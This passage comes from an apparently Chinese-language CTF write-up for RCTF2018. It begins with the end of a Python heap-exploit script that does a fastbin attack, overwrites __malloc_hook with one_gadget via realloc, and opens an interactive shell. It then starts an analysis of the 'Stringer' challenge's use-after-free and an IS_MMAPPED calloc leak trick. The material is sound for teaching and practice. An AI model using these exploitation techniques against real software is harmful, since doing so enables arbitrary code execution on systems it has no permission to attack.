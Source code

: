     	fake_fd = malloc_hook - 0x28 + 5
    
    	alloc_chunk(0x68,'A')
    
    	del_chunk(5)
    	del_chunk(3)
    	del_chunk(2)
    
    	alloc_chunk(0x68,p64(fake_fd))
    	alloc_chunk(0x68,'A')
    	alloc_chunk(0x68,'A')
    
    	realloc_addr = libc.symbols['realloc']
    	lg('realloc',realloc_addr)
    	payload = 'A'*0x3 + p64(one_gadget3)*2 + p64(realloc_addr)
    	alloc_chunk(0x68,payload)
    
    	#alloc_chunk(0x20,'A')
    	sla('choice: ','1')
    	sla('size: ',str(1))
    	
    	p.interactive()
    
    hack()
# Stringer #
## 1.题目分析 ##
乍一看，题目好像只存在一个UAF漏洞，在delete_string()函数中，未对释放后的指针进行清0，漏洞如下所示：  
![uaf](https://raw.githubusercontent.com/fade-vivida/CTF/master/RCTF2018/picture/uaf_free.PNG)  
查看程序保护机制，发现保护机制全开，因此必须找到一处能够进行信息泄露的地方。  
由于该程序中对堆块的申请使用了calloc()函数，该函数会对分配到的chunk进行清0，无法进行信息泄露。  
之后，通过查资料和阅读源码得知如果设置chunk的IS\_MMAPPED字段（0x2），则分配后的chunk不会被清0。因此可使用此方法进行信息泄露。
## 2.漏洞利用 ##
### 2.1 leak libc ###
使用overlap+uaf的方法进行信息泄露。  
具体利用过程为： 
 